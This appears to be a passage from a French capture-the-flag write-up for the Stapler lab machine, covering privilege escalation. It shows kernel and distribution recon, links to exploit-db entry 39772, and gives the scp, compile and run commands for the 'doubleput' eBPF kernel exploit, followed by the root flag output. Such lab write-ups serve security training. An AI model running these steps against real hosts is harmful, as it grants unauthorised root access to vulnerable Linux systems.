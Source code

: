 ## On élève nos privilèges

Afin de réaliser l'élévation de privilèges, on se renseigne sur la version du
noyau linux ainsi que la version de la distribution utilisée:
```
lsb_realease -a
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04 LTS
Release:	16.04
Codename:	xenial

uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

Dans notre cas voici les ressouces utiles: 

- [https://www.exploit-db.com/exploits/39772/](https://www.exploit-db.com/exploits/39772/)
- [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip)

```bash
scp 39772.zip SHayslett@stapler:/tmp
ssh SHayslett@stapler
cd /tmp/
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

On obtient alors un shell root: \

```
cat /root/flag.txt

~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

\pagebreak
